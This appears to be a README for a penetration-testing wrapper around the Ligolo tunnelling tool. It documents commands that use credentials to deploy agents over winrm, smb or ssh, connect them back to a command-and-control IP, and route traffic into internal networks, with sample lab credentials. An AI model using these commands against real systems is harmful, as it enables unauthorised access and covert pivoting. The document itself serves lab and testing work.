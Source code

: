 # Ligolo UwU v2

All-in-One Ligolo Manager with direct upload method.
This tool is built of NXC, ensure to have it working prior to use. 
## Quick Start

```bash
# Install globally
./ligolo-uwu.sh install

# Download binaries
ligolo-uwu download

# Start proxy
ligolo-uwu proxy 443

# Add target and deploy (machines must be uppercase, I know I know)
ligolo-uwu add WIN01 <ip> <user> <pass> <c2_ip> 443 winrm

# Add route
ligolo-uwu route 172.16.70.0
```

## Syntax

### Installation
```bash
ligolo-uwu install                    # Install globally to /opt
ligolo-uwu clean                      # Clean up all lab files
ligolo-uwu clean --uninstall          # Clean up and uninstall
```

### Proxy Management
```bash
ligolo-uwu proxy <port> [interface]   # Start proxy server
ligolo-uwu download                   # Download latest binaries
```

### Route Management
```bash
ligolo-uwu route <network>            # Add route to ligolo interface
ligolo-uwu route-del <network>        # Remove route from ligolo interface
ligolo-uwu routes                     # List all ligolo routes
```

### Agent Deployment
```bash
ligolo-uwu agent <target_name>        # Deploy to saved target
ligolo-uwu <ip> <user> <pass> <c2_ip> <c2_port> <protocol> [--local-auth] [--debug]
```

### Target Management
```bash
ligolo-uwu add <name> <ip> <user> <pass> <c2_ip> <c2_port> <protocol> [--local-auth]
ligolo-uwu list                       # List saved targets
ligolo-uwu remove <target_name>       # Remove saved target
```

## Protocols
- `ssh` - Linux targets
- `winrm` - Windows targets (PowerShell)
- `smb` - Windows targets (cmd.exe)

## Flags
- `--local-auth` - Use local authentication (winrm/smb)
- `--debug` - Enable debug output

## Examples

```bash
# Windows targets
ligolo-uwu add WIN01 192.168.1.100 administrator 'Password1' 10.10.14.21 443 winrm 
ligolo-uwu add WIN03 192.168.1.100 user 'Pass123!' 10.10.14.21 443 smb

# Linux targets
ligolo-uwu add LINUX01 10.10.110.25 root 'toor' 10.10.14.21 443 ssh

# Quick deploy
ligolo-uwu 192.168.1.100 admin 'pass123' 10.10.14.21 443 winrm

# Routes
ligolo-uwu route 172.16.70.0          # Add /24 route
ligolo-uwu route 10.10.10.0/16        # Custom CIDR
ligolo-uwu routes                     # List routes
ligolo-uwu route-del 172.16.70.0      # Remove route

# Deploy to saved target
ligolo-uwu agent WIN01

# Clean up lab
ligolo-uwu clean
```
